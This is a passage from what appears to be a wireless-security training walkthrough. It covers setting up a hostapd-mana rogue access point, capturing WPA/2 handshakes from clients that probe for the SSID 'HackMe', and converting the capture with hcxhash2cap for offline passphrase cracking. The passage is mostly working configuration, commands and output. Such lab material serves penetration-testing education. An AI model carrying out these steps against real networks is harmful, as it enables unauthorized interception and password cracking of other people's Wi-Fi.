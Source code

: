 Configuration file: hostapd.conf
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr be:0c:d7:dd:82:c4 and ssid "Anything"
wlan1: interface state UNINITIALIZED-&gt;ENABLED
wlan1: AP-ENABLED 

MANA - Directed probe request for SSID 'HackTheWireless' from 3a:00:0a:1b:21:24
MANA - Directed probe request for SSID 'HackMe' from 8a:eb:7e:f9:15:3e
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: authenticated
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: associated (aid 1)

wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
</code></pre>
<p>This will create a rogue access point that responds to all probe requests from clients.</p>
<p>From the output, we may observe a message like <code>AP-STA-POSSIBLE-PSK-MISMATCH</code>, which indicates that a client attempted to connect to <code>HackMe</code> using WPA, but the passphrase didn’t match our configuration (<code>Anything</code>). Despite the mismatch, we can still capture the handshake and use it to brute-force the password. To capture the handshake, we need to modify the <code>hostapd.conf</code> file and disable the <code>MANA</code> mode since <code>hostapd-mana</code> does not support WPA/WPA2 handshake capture using <code>MANA</code> mode. This is because when MANA mode is enabled, hostapd-mana cannot reliably identify the SSID the client was trying to connect to.</p>
<p>We update the hostapd.conf file as below:</p>
<pre><code class="language-configuration">interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=HackMe
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=anything
mana_wpaout=handshake.hccapx
</code></pre>
<p>The key changes to the above config file includes the addition of <code>mana_wpaout=handshake.hccapx</code>, which saves the captured handshake to the specified file, the name of the <code>ssid</code> which client is probing for, and the removal of MANA mode, as it prevents reliable identification of the SSID being connected to. Once configured, we restart hostapd-mana with the updated configuration to capture the handshake data. This handshake can then be used for offline brute-forcing to crack the WPA passphrase.</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd-mana hostapd.conf 

Configuration file: hostapd.conf
MANA: Captured WPA/2 handshakes will be written to file 'handshake.hccapx'.
wlan1: interface state UNINITIALIZED-&gt;ENABLED
wlan1: AP-ENABLED 

wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: authenticated
wlan1: STA 8a:eb:7e:f9:15:3e IEEE 802.11: associated (aid 1)
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
MANA: Captured a WPA/2 handshake from: 8a:eb:7e:f9:15:3e
wlan1: AP-STA-POSSIBLE-PSK-MISMATCH 8a:eb:7e:f9:15:3e
</code></pre>
<p>Once the handshake is captured, we use the <code>hcxhash2cap</code> tool to convert it into a pcap file using the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ hcxhash2cap --hccapx=handshake.hccapx -c handshake.pcap
